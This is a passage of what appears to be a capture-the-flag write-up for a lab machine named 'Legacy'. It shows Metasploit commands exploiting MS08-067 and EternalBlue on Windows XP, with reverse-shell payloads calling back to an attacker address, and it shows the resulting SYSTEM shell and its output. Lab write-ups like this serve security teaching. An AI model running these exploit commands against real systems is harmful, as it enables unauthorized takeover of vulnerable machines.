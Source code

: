 ### Method 1: MS08-067 Exploitation

#### Setting up Metasploit

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
show options
```

![Metasploit Configuration](images/metasploit-ms08067.png)

#### Payload Selection

```bash
set payload windows/shell_reverse_tcp
set LHOST 10.10.14.15
exploit
```

**Success!** We get a shell immediately:

![Successful Exploitation](images/shell-obtained.png)

```cmd
C:\WINDOWS\system32>whoami
nt authority\system

C:\WINDOWS\system32>hostname
legacy
```

### Method 2: MS17-010 (EternalBlue)

For educational purposes, let's also demonstrate the EternalBlue exploit:

```bash
# Using Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.4
set LHOST 10.10.14.15
set payload windows/x64/shell_reverse_tcp
exploit
```

![EternalBlue Exploitation](images/eternalblue-exploit.png)

## Post-Exploitation

### System Information

```cmd
C:\WINDOWS\system32>systeminfo
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
System Type:               X86-based PC
```
